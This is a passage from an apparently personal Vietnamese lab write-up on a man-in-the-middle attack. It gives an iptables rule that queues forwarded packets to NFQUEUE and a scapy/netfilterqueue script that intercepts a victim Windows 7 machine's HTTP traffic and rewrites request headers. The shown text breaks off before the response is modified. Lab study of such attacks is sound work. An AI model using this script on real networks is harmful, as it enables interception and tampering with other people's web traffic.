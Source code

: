 ![ảnh](https://hackmd.io/_uploads/B1pnGNd0a.png)

- firewall vẫn đang hoạt động nên chưa thể kết thúc request

### Khai thác trên máy victim

- mình sửa câu lệnh trong iptables thành

```bash!
iptables -A FORWARD -j NFQUEUE --queue-num 0
```

để lọc các gói khi đi đến các server khác ở đây là máy window 7 của victim và được đoạn code sau:

```python!
from scapy.all import *
from colorama import init, Fore
from netfilterqueue import NetfilterQueue
import re

# initialize colorama
init()

# define colors
GREEN = Fore.GREEN
RESET = Fore.RESET


def process_packet(packet):
    """
    This function is executed whenever a packet is sniffed
    """
    # convert the netfilterqueue packet into Scapy packet
    spacket = IP(packet.get_payload())
    if spacket.haslayer(Raw) and spacket.haslayer(TCP):
        if spacket[TCP].dport == 80:
            # HTTP request
            print(f"[*] Detected HTTP Request from {spacket[IP].src} to {spacket[IP].dst}")
            try:
                load = spacket[Raw].load.decode()
            except Exception as e:
                # raw data cannot be decoded, apparently not HTML
                # forward the packet exit the function
                packet.accept()
                return
            # remove Accept-Encoding header from the HTTP request
            new_load = re.sub(r"Accept-Encoding:.*\r\n", "", load)
            # set the new data
            spacket[Raw].load = new_load
            # set IP length header, checksums of IP and TCP to None
            # so Scapy will re-calculate them automatically
            spacket[IP].len = None
            spacket[IP].chksum = None
            spacket[TCP].chksum = None
            # set the modified Scapy packet back to the netfilterqueue packet
            packet.set_payload(bytes(spacket))
        if spacket[TCP].sport == 80:
            # HTTP response
            print(f"[*] Detected HTTP Response from {spacket[IP].src} to {spacket[IP].dst}")
            try:
                load = spacket[Raw].load.decode()
            except:
                packet.accept()
                return
            # if you want to debug and see the HTML data
            # print("Load:", load)
```